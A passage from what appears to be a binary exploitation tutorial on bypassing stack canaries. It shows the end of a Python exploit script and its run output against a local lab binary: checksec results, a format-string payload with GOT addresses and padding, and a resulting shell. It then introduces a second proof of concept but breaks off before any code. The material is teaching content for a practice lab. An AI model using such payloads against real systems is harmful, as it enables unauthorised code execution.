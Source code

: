     sys.exit(0)
{% endhighlight %}

### Proof

	$ python bypass_canary.py
	[*] '/home/lab/Git/RE_binaries/0x00sec_WIP/Canary/binary/vuln2'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)
	[*] '/lib/i386-linux-gnu/libc-2.23.so'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    Canary found
	    NX:       NX enabled
	    PIE:      PIE enabled
	[+] Starting local process './binary/vuln2': pid 20723
	[*] Switching to interactive mode
	sh;#    \x14\xa0\x0\x15\xa0\x0\x16\xa0\x0\x17\xa0\x0                                                                                                                                 804a014                                                                                                                                                                                                                            0                                                                                              f7ffd000                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            f7ffd53cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXwhoamiWelcome 0x00sec to Stack Canaries
	$ whoami
	lab

Ok this worked but it did not necessarily defeat stack canaries!
I just opened another can of delicious attack surfaces and with that I was able to bypass the canaries completely.
Since that just doesn't feel quite right I will give another PoC for defeating the mechanism in a more appropriate manner.


 ____
## PoC 2
### Defeating stack canaries 4 realz now

Okay this time around a more 'standard' way of defeating stack canaries is shown
